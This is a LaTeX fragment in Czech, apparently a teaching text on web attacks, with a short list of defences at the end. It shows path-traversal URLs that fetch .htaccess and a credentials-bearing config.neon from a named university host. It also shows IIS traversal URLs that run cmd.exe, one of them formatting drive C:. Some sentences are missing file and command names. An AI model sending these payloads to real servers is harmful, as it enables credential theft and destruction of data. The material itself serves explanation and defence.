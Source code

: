 \documentclass[12pt, a4paper]{report}
\begin{document}
\begin{lstlisting}[label=man_url_get_htaccess,caption=Manipulace s URL - získání .htaccess]
http://portal.czu.cz/index.php?item=../.htaccess
\end{lstlisting}

\begin{lstlisting}[label=man_url_get_neon,caption=Manipulace s URL - získání config.neon]
http://portal.czu.cz/index.php?item=../config/config.neon
\end{lstlisting}

V prvním příkladě \ref{man_url_get_htaccess} jsme se snažili získat soubor , který může obsahovat autentizační metody, nastavení práv apod. Ve druhém příkladě \ref{man_url_get_neon} jsme se poukoušeli získat soubor . Tento soubor slouží pro uchování  informací na webech, které využívají Nette Framework. Příkladem takových informací může být přihlášení k databázi.

\subsection{IIS Web Server}
Starší verze IIS (Internet Information Service - Microsoftem distribuovaná obdoba webového serveru Apache2) umožňovaly dokonce i vykonávat příkazy na serveru!

\begin{lstlisting}[label=iis_derave,caption=Ukázka URL pro \uv{děravé} IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+dir+c:\
\end{lstlisting}

Tento příkaz spustil  (příkazová řádka systému Windows) a v něm příkaz . Nic nám tedy nebrání přidávat uživatele do systému, nebo formátovat pevné disky, jak lze vidět zde:

\begin{lstlisting}[label=iis_derave_format,caption=Formátování disku C: přes chybu v IIS]
http://iis.czu.cz/scr/..%5c../winnt/system32/ cmd.exe?/c+format+c:\
\end{lstlisting}

\subsection{Obrana}
\begin{itemize}
\item Mít správně nastavená oprávnění a cesty jednotlivých webových serverů (virtuálních hostů).
\item Kontrolovat, co vlastně do stránky vkládáme.
\item Úplně se vyhnout vkládání dat do stránky (například v PHP můžeme použít \textit{spl$\_$autoload$\_$register}, který nám automaticky podle zadané funkce načítá třídy ze souborového systému).
\end{itemize}
\end{document}
